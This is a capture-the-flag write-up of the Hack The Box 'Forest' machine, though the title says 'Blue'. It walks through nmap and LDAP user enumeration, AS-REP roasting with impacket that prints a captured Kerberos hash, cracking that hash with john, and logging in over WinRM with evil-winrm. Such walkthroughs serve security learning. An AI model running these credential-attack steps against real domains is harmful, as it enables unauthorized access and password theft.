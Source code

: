 ```yaml
---
layout: post
title:  "Hackthebox - Blue writeup"
date:   2023-06-03 19:00:00 +0300
categories: HTB write-up
description:  "Hackthebox - HTB Blue writeup - How to solve this box"
keywords: "Hack the box, HTB, writeup, Forrest"
---
```


## Recon

Let's start with the classic port scan.

```
sudo nmap -sS -sV 10.10.10.161 -oS nmap
```

which returns: 

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-14 14:24 EEST
Nmap scan report for 10.10.10.161
Host is up (0.22s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-08-14 11:48:00Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.54 seconds
```

On thing to note is the domain name (htb.local) as we will need this further on. 
Plenty of results immediately, but of course LDAP and Kerberos catches our attention. Let's try to enumerate users using LDAP search. 

```
ldapsearch -x -H ldap://10.10.10.161 -b "DC=htb,DC=local"
```

This produces too many results, so I will try to grep what is interesting for me. 

```
ldapsearch -x -H ldap://10.10.10.161 -b "DC=htb,DC=local" | grep userPrincipalName

userPrincipalName: Exchange_Online-ApplicationAccount@htb.local
userPrincipalName: SystemMailbox{1f05a927-89c0-4725-adca-4527114196a1}@htb.loc
userPrincipalName: SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}@htb.loc
userPrincipalName: SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}@htb.loc
userPrincipalName: DiscoverySearchMailbox {D919BA05-46A6-415f-80AD-7E09334BB85
userPrincipalName: Migration.8f3e7716-2011-43e4-96b1-aba62d229136@htb.local
userPrincipalName: FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042@htb.loc
userPrincipalName: SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}@htb.loc
userPrincipalName: SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}@htb.loc
userPrincipalName: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}@htb.loc
userPrincipalName: HealthMailboxc3d7722415ad41a5b19e3e00e165edbe@htb.local
userPrincipalName: HealthMailboxfc9daad117b84fe08b081886bd8a5a50@htb.local
userPrincipalName: HealthMailboxc0a90c97d4994429b15003d6a518f3f5@htb.local
userPrincipalName: HealthMailbox670628ec4dd64321acfdf6e67db3a2d8@htb.local
userPrincipalName: HealthMailbox968e74dd3edb414cb4018376e7dd95ba@htb.local
userPrincipalName: HealthMailbox6ded67848a234577a1756e072081d01f@htb.local
userPrincipalName: HealthMailbox83d6781be36b4bbf8893b03c2ee379ab@htb.local
userPrincipalName: HealthMailboxfd87238e536e49e08738480d300e3772@htb.local
userPrincipalName: HealthMailboxb01ac647a64648d2a5fa21df27058a24@htb.local
userPrincipalName: HealthMailbox7108a4e350f84b32a7a90d8e718f78cf@htb.local
userPrincipalName: HealthMailbox0659cc188f4c4f9f978f6c2142c4181e@htb.local
userPrincipalName: sebastien@htb.local
userPrincipalName: santi@htb.local
userPrincipalName: lucinda@htb.local
userPrincipalName: andy@htb.local
userPrincipalName: mark@htb.local

```

and also grep for service accounts:

```
ldapsearch -x -H ldap://10.10.10.161 -b "DC=htb,DC=local" | grep 'Service Accounts'


# Managed Service Accounts, htb.local
dn: CN=Managed Service Accounts,DC=htb,DC=local
cn: Managed Service Accounts
distinguishedName: CN=Managed Service Accounts,DC=htb,DC=local
name: Managed Service Accounts
# Service Accounts, htb.local
dn: OU=Service Accounts,DC=htb,DC=local
ou: Service Accounts
distinguishedName: OU=Service Accounts,DC=htb,DC=local
name: Service Accounts
# svc-alfresco, Service Accounts, htb.local
dn: CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local
# Service Accounts, Security Groups, htb.local
dn: CN=Service Accounts,OU=Security Groups,DC=htb,DC=local

```

which returns svc-alfresco as a result. 

## User flag

I create a users.txt file with all the accounts I discovered. The first tactic is to query for users that have no pre-authentication enabled. You can google that out or read this fine [article](https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/) to find out more. In a nutshell, users with no pre-authentication enabled means these users don't have to prove they know their password to the Domain Controller. As a result these accounts can obtain AS-REP replies that contain TGT tickets and these replies are partly encrypted with the user's password. Now as an attacker you have the opportunity to crack it offline. 

There are tools to get the AS-REP replies and I am going to use impacket.

```
impacket-GetNPUsers -usersfile users.txt -request -format john -outputfile ASREPRoast.txt -dc-ip 10.10.10.161 'htb.local/'

cat ASREPRoast.txt 

$krb5asrep$svc-alfresco@htb.local@HTB.LOCAL:9745925cd49197ddcaa315d66e570f75$1ca0da77e1799e460b2818c58e3e98de2783b50dde571d6c18af1fe706662c6e2c573a545304769de6ebb630ff5d9e6c4fbf2d7df0323f9216ab03ba3bb5d49c7ee6b7caa7352fa370e20369e672f000eeec50dde6a6aa7ab89363030ea9b3c6364e1bd22eb45c0b78ef25bb2a544b0b4c797c0c5d2e89a3ce6a1134c645f2c3c3a1cb917df1a13328952f271209ddc8b4f024a80a345b675163a82b585b28f4cfa855bdf6af2f4c23349093d762e9de24c611261ae071fe61055c84fa38d2b68bb396f0ea017994c2e80bd776e24766e77fc2f27b6dc9352ad48749a2d1d7050bdd01c3a3b3
```

Now that we have the hashed password we can try to crack it with john ( this is the format we chose at the impacket command above).

```
john ASREPRoast.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

and now you have the user's password. Let's see what services there are to exploit...

hmm...

at this point I had to think a little bit. I did not scan for all the open ports during my nmap scan. I ran again the nmap scan with the ```-p-``` flag to scan all the ports and I got a new result: port 5985 open using HTTP, which [points us](https://www.speedguide.net/port.php?port=5985) to WinRM. 

Just googling *win-rm kali linux* shows me the evil-winrm tool. 

You can connect to the box using the following command:

```
evil-winrm -u svc-alfresco -p ********* -i 10.10.10.161
```

Now that you are connected, just look around and you'll find the user flag. 
